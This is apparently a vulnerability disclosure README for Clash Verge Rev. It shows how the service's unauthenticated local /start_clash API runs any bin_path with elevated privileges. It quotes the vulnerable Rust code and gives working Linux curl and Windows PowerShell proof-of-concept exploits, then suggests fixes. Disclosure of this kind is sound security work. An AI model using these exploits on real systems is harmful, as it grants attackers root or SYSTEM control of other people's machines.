 # clash-verge-rev-privilege-escalation-poc
## Vulnerability Title

[Clash-Verge-Rev](https://github.com/clash-verge-rev/clash-verge-rev) unauthorized API leads to local privilege escalation

## Description

Clash Verge Rev forces the installation of system services([clash-verge-service](https://github.com/clash-verge-rev/clash-verge-service)) by default and exposes key functions through the unauthorized HTTP API `/start_clash`, allowing local users to submit arbitrary bin_path parameters and pass them directly to the service process for execution, resulting in local privilege escalation.

- **Affected Systems**: Clash Verge Rev<=v2,2,3 (Linux/Windows/macOS)

## Technical Details

1. The service process listens on 127.0.0.1:33211 via the Warp framework, and no authentication is implemented for the `/start_clash` interface

[clash-verge-service/src/service/mod.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/mod.rs#L100)

```rust
// Line 29
const LISTEN_PORT: u16 = 33211;
// Line 77~80
let api_start_clash = warp::post()
    .and(warp::path("start_clash"))
    .and(warp::body::json())
    .map(move |body: StartBody| wrap_response!(COREMANAGER.lock().unwrap().start_clash(body)));
// Line 98~107
warp::serve(
    api_get_version
        .or(api_start_clash)
        .or(api_stop_clash)
        .or(api_stop_service)
        .or(api_get_clash)
        .or(api_exit_sys),
)
.run(([127, 0, 0, 1], LISTEN_PORT))
.await;
```

2. `start_clash()` calls `start_mihomo()` and `start_mihomo()` calls the function `process::spawn_process(bin_path, &args, log) `passing in bin_path. `spawn_process()` calls `std::Command::new(command)` to execute the command

[clash-verge-service/src/service/core.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/core.rs#L156)

```rust
let pid = process::spawn_process(bin_path, &args, log)?;
```

[clash-verge-service/src/service/process.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/process.rs#L8)

```rust
let child = Command::new(command)
    .args(args)
    .stdout(log)
    .stderr(Stdio::null())
    .spawn()?;
```

## Proof of Concept

### Linux

1. Create a malicious script: (normal user)

```bash
echo -e '#!/bin/bash\nid > /root/pwned' > /home/user/pwn  
chmod +x /home/user/pwn 
```

2. Send an unauthenticated request:

```bash
curl -XPOST http://127.0.0.1:33211/start_clash \
     -H 'Content-Type: application/json' \
     -d '{
       "bin_path":"/home/user/pwn",
       "config_dir":"/tmp",
       "config_file":"/dev/null",
       "log_file":"/tmp/x"
     }'
```

![](./1.png)

3. Verify privilege escalation:

```bash
sudo cat /root/pwned
```

![](./2.png)

![](./3.png)

### Windows

pwn.bat:

```bat
@echo off
whoami > C:\Users\xxx\Desktop\pwned.txt
```

test.ps1:

```powershell
$apiUrl = "http://127.0.0.1:33211/start_clash"
$headers = @{ "Content-Type" = "application/json" }
$body = @{
    bin_path    = "C:\Users\xxx\Desktop\pwn.bat"
    config_dir  = "C:\Windows\Temp"
    config_file = "NUL"
    log_file    = "C:\Windows\Temp\exploit.log"
} | ConvertTo-Json

Invoke-RestMethod -Uri $apiUrl -Method Post -Headers $headers -Body $body
```

![](./4.png)

## Mitigation

1. Logic Fix: Remove user control over `bin_path`; use a hardcoded allowlist
2. Run the service under a non-privileged user and grant necessary capabilities via `setcap`

